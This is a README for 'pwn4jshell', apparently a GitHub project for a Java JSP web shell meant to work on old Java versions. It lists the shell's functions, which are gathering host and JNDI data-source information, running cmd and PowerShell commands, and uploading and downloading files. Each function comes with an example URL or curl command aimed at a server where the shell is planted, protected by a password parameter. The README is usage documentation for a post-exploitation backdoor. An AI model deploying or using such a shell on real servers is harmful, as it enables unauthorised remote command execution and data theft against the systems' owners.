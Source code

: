 # pwn4jshell
Java Web shell project

Idea of creating, webshell with suport to old versions of java. 
Building it in jsp means the code compilation will happend at the server side
with the server compiler, making it easyer and less likely to run into
compatibility issues. 
Other than api... and sintax things should be easy. 


## Credits
Some of the code in this project is based on work from other ppl.   
For file upload based on Boris Von Leosch.

## Example

### Get basic host information.
Information includes java system properties. 
Global JNDI Config if specifically if they implement DataSource.
Hostname and Ip configuration.
 
http://{ip}:8080/pwn4jshell/shell.jsp?pass=key

### Execute CMD command Execution
http://{ip}:8080/pwn4jshell/?pass=key&action=exec&args=dir

### Powershell Command execution 
http://{ip}:8080/pwn4jshell/?pass=key&action=power&args=dir

### Upload a file 
curl -X POST -F "file=@{file to upload}" "http://{ip}:8080/?pass=key&action=up&path={destination}"

if the path is not set the file will be placed in the same dir as the shell.jsp

## Download file or directory
curl "http://{ip}:8080/pwn4jshell/?pass=key&action=down&path={pathToFile}&args=shell.jsp" 

same as upload if path is not set will try to download the file from the same dir as shell.jsp 